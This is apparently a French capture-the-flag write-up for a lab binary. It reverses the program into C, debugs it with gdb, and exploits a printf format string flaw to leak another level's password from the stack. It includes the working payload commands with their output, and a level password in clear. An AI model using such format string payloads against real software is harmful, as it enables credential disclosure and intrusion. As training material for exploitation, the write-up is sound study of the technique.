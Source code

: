 # Level 02

## Analyse du binaire

Lorsqu'on exécute le binaire un username puis un mot de passe est attendu sur l'entrée standard.

On remarque que l'architecture pour laquelle a été conçue le binaire est différente de tous les exercices précédents. En effet il s'agit ici d'une architecture 64 bits **amd64** et non plus **i386**.
Le code asm va donc différer un peu. Les registres 64 bits font leurs apparitions :

| 64 bits registers | Lower 32 bits | Lower 16 bits | Lower 8 bits |
| ----------------- | ------------- | ------------- | ------------ |
| rax               | eax           | ax            | al           |
| rbx               | ebx           | bx            | bl           |
| rcx               | ecx           | cx            | cl           |
| rdx               | edx           | dx            | dl           |
| rsi               | esi           | si            | sil          |
| rdi               | edi           | di            | dil          |
| rbp               | ebp           | bp            | bpl          |
| rsp               | esp           | sp            | spl          |
| r8                | r8d           | r8w           | r8b          |
| r9                | r9d           | r9w           | r9b          |
| r10               | r10d          | r10w          | r10b         |
| r11               | r11d          | r11w          | r11b         |
| r12               | r12d          | r12w          | r12b         |
| r13               | r13d          | r13w          | r13b         |
| r14               | r14d          | r14w          | r14b         |
| r15               | r15d          | r15w          | r15b         |

Les _calling conventions_ sont aussi différentes. De [wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions#x86-64_calling_conventions) :

```
The first six integer or pointer arguments are passed in registers RDI, RSI, RDX, RCX, R8, R9 (R10 is used as a static chain pointer in case of nested functions),
while XMM0, XMM1, XMM2, XMM3, XMM4, XMM5, XMM6 and XMM7 are used for the first floating point arguments.
As in the Microsoft x64 calling convention, additional arguments are passed on the stack.

```

## Réécriture du code source

On peut réécrire en C un code source :

```c
int main(int argc, const char **argv)
{
	char *password[96];		 // rbp-0x110
	char *password_file[40]; // rbp-0xa0
	char *username[96];		 // rbp-0x70
	int tmp;				 // rbp-0xc
	FILE *file;				 // rbp-0x8

	bzero(username, 96);	  // not really a call to bzero function
	bzero(password_file, 40); // not really a call to bzero function
	bzero(password, 96);	  // not really a call to bzero function

	file = NULL;
	tmp = 0;
	file = fopen("/home/users/level03/.pass", "r");
	if (!file)
	{
		fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
		exit(1);
	}
	tmp = fread(password_file, 1, 41, file);

	int res = strcspn(password_file, "\n");
	password_file[res] = '\0';

	if (tmp != 41)
	{
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
		exit(1);
	}
	fclose(file);

	puts("===== [ Secure Access System v1.0 ] =====");
	puts("/***************************************\\");
	puts("| You must login to access this system. |");
	puts("\**************************************/");

	printf("--[ Username: ");
	fgets(username, 100, stdin);
	int res = strcspn(username, "\n");
	username[res] = '\0';

	printf("--[ Password: ");
	fgets(password, 100, stdin);
	int res = strcspn(password, "\n");
	password[res] = '\0';

	puts("*****************************************");

	if (strncmp(password_file, password, 41))
	{
		printf(username);
		puts(" does not have access!");
		exit(1);
	}

	printf("Greetings, %s!\n", username);
	system("/bin/sh");
	return 0;
}
```

## Débuguer le programme

Le binaire ouvrant et lisant le mot de passe de level03, il est difficile d'utiliser un débugueur puisqu'il n'a donc pas les droits sur ce fichier. Pour pouvoir débuguer un minimum, on peut lors de la lecture utiliser comme fichier l'entrée standard à la place du mot de passe. Pour ce faire il faut utiliser les commandes suivantes dans gdb :

Dans un premier temps on place les breakpoints où l'on veut. Par exemple, juste après le 2e _fgets_ :

```gdb
b *0x400a24
```

- On place deux breakpoints, un à la suite de _fopen_, un avant l'appel de _fclose_. Puis on run le programme.

```gdb
b *0x4008ad
b *0x400981
```

- Au breakpoint `0x4008ad`, on modifie la valeur de retour de _fopen_, pour lui assigner _stdin_ :

```gdb
set $rax = 0x00007ffff7dd4340
```

- Un input est attendu sur l'entrée standard, comme il y aura une vérification sur la longueur du mot de passe on peut utiliser le mot de passe du level actuel : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` ou toute chaîne de caractères ayant au moins 41 caractères.

- Au breakpoint `0x400981`, on modifie le 1er argument de la fonction _fclose_ :

```gdb
set $rax = 0x00007ffff7dd4180
```

## Exploitation

On peut penser au début que la faille vient de la comparaison entre le mot de passe entré et le mot de passe récupéré depuis le fichier :

```c
strncmp(password_file, password, 41)
```

Cependant, tous les buffers alloués possèdent la bonne taille et ils sont protégés. On ne peut donc pas utiliser de **buffer overflow** pour modifier le mot de passe provenant du fichier et ensuite accéder au shell lancé par la commande système.

Cependant, on remarque juste après que cette comparaison ait échouée un appel à la fonction _printf_ avec comme argument le buffer _username_ :

```c
printf(username);
```

On peut donc utiliser une **format string attack**.

Comme le mot de passe est lu et stocké dans une variable, il faudrait juste pouvoir afficher cette variable pour obtenir notre mot de passe.

En utilisant la commande :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %lx %lx"; echo "passwd") | ./level02
```

on obtient :

```
7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 647773736170 0 does not have access!
```

Avec gdb, en s'arrêtant juste avant l'appel à la fonction _printf_, on peut voir le contenu des registres :

```
RAX: 0x0
RBX: 0x0
RCX: 0x70 ('p')
RDX: 0x0
RSI: 0x7fffffffe390 --> 0x647773736170 ('passwd')
RDI: 0x7fffffffe430 --> 0x786c25 ('%lx')
RBP: 0x7fffffffe4a0 --> 0x0
RSP: 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
RIP: 0x400aa2 (<main+654>:      call   0x4006c0 <printf@plt>)
R8 : 0x2a2a2a2a2a2a2a2a ('********')
R9 : 0x2a2a2a2a2a2a2a2a ('********')
R10: 0x7fffffffe110 --> 0x0
```

et de la stack :

```
0000| 0x7fffffffe380 --> 0x7fffffffe588 --> 0x7fffffffe7ef ("/home/users/level02/level02")
0008| 0x7fffffffe388 --> 0x1f7ff9a08
0016| 0x7fffffffe390 --> 0x647773736170 ('passwd')
0024| 0x7fffffffe398 --> 0x0
```

On remarque bien la correspondance entre les paramètres et les registres / la stack. Les adresses `7fffffffe3d0 0 70 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a` correspondent respectivement aux registres `RSI RDX RCX R8 R9`. Les adresses `7fffffffe5c8 1f7ff9a08 647773736170 0` correspondent aux premiers éléments de la stack.

On remarque donc que notre mot de passe est dans la stack et donc qu'on peut le réutiliser. On le vérifie :

```bash
(echo "%s %lx %lx %lx %lx %lx %lx %lx %lx"; echo "AAAAAAAAA") | ./level02
```

```
AAAAAAAAA 0 41 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 7fffffffe5c8 1f7ff9a08 4141414141414141 41 does not have access!
```

On peut donc insérer l'adresse de la variable où est stocké le mot de passe du level03 et l'afficher. L'adresse de cette variable est `0x7fffffffe400`. Cependant on a vu précédement que l'adresse du mot de passe entré par l'utilisateur est différente selon si on exécute le binaire via le débugueur ou non.
On avait dans le débugueur l'adresse `0x7fffffffe390` et l'adresse affichée `0x7fffffffe3d0`. En faisant la différence des deux on obtient 0x40 (hex) ou 64 (dec).
En ajoutant cette différence à notre adressse on obtient `0x7fffffffe400 + 0x40 = 0x7f ffffffe440`.

Finalement on peut utiliser la commande suivante pour afficher le mot de passe de l'utilisateur level03 :

```bash
(echo "%lx %lx %lx %lx %lx %lx %lx %s %lx"; echo -e "\x40\xe4\xff\xff\xff\x7f") | ./level02
```
